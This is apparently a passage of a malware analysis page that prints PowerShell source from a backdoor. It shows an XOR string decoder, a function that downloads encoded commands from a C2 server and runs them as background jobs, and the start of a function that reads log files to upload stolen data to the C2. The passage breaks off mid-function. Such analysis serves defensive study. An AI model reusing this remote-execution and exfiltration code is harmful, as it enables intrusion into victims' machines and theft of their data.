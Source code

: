 ```csharp
 $comletter = ""
 while($i -lt $len)
 {
  $j = $j % 160  
  $asciidec = $encstr[$i] -bxor $key[$j]
  $dec = [char]$asciidec
  $comletter += $dec
  $j++
  $i++
 }

 return $comletter
}
```

<h6>The next function is for download the next commands as job by the C2.</h6>

```csharp
function Download
{
 $downname = $LocalID + ".down"
 $delphppath = $SERVER_ADDR + "del.php"
 $downpsurl = $SERVER_ADDR + $downname
 $codestring = (New-Object System.Net.WebClient).DownloadString($downpsurl)
 $comletter = decode $codestring
 $decode = $executioncontext.InvokeCommand.NewScriptBlock($comletter)
 $RunningJob = Get-Job -State Running
 if($RunningJob.count -lt 3)
 {
  $JobName = $RunningJob.count + 1
  Start-Job -ScriptBlock $decode -Name $JobName
 }
 else
 {
  $JobName = $RunningJob.count
  Stop-Job -Name $RunningJob.Name
  Remove-Job -Name $RunningJob.Name
  Start-Job -ScriptBlock $decode -Name $JobName
 }
 $down_Server_path = $delphppath + "?filename=$LocalID"
 $response = [System.Net.WebRequest]::Create($down_Server_path).GetResponse()
 $response.Close()
}
```

<h6>The last function is for upload the stolen to C2.</h6>

```csharp
function UpLoadFunc($logpath)
{
 $Url = $SERVER_ADDR + $UP_URI
 $bReturn = $True
 $testpath = Test-Path $logpath
 if($testpath -eq $False){return $bReturn}
 $hexdata = [IO.File]::ReadAllText($logpath)
 $encletter = decode $hexdata
 $nEncLen = $encletter.Length
 $LF = "`r`n"
 $templen = 0x100000
 $sum = 0
 do
 {
  $szOptional = ""
  $pUploadData = ""
  Start-Sleep -Milliseconds 100
```